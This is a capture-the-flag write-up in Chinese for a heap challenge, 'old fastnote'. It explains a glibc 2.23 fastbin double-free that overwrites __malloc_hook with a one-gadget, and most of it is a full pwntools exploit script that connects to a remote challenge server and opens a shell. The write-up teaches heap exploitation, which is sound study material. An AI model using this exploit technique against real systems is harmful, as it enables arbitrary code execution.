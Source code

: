 # old fastnote

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |full  |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

glibc 2.23，tcache还没有，打fastbin dup，先分配0x80的chunk在unsorted bin拿libc，
然后依次释放010堆块double free，写地址为mallocHook，最后分配过去写OneGadget拿shell

一开始想用freeHook的，但是因为fastbin在分配的时候会检查chunk size，而freeHook周围都是0，
所以用不了；而mallocHook周围有libc地址，可以利用字节错位，分配一个有效的chunk

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./oldfastnote')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('106.14.57.14', 30281)
    elf = ELF('eldering')
    libc = ELF('./libc-2.23.so')

    def addn(idx:int, size:int, content:bytes=b' ', hooked:bool=False):
        sh.sendlineafter(b'ice:', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())
        if hooked:
            return
        sh.sendlineafter(b'Content', content)

    def deln(idx:int):
        sh.sendlineafter(b'ice:', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'ice:', b'2')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recvline()

    # leak libc addr (unsorted bin)
    addn(15, 0x80)
    addn(14, 0x80) # prevent it being merged into top chunk
    deln(15)
    ret = show(15)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0')
    libcBase = mainArena - dumpArena - 0x58 # sub unsorted bin offset
    print(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    mallocHook = libcBase + libc.symbols['__malloc_hook']
    ogg = libcBase + 0xf1247
    if (libcBase >> 40) & 0b1 != 1:
        print('\x1b[33mmalloc_hook can not be alloced!\x1b[0m')
        sh.close()
        return 0

    # double free to malloc at mallocHook
    addn(0, 0x60)
    addn(1, 0x60)
    deln(0)
    deln(1)
    deln(0)                               # head -> 0 -> 1 -> 0
    addn(2, 0x60, p64(mallocHook - 0x23)) # head -> 1 -> 0 -> mallocHook [0]
    addn(3, 0x60)                         # head -> 0 -> mallocHook [1]
    addn(4, 0x60)                         # head -> mallocHook [0]
    addn(5, 0x60, b'\0'*0x13 + p64(ogg))  # write ogg on mallocHook
    addn(6, 0x18, b'\0', True) # trigger one gadget

    sh.clean()
    sh.interactive()
    return 1
```

> 一开始libc忘记调了，结果调偏移调不出来了:[

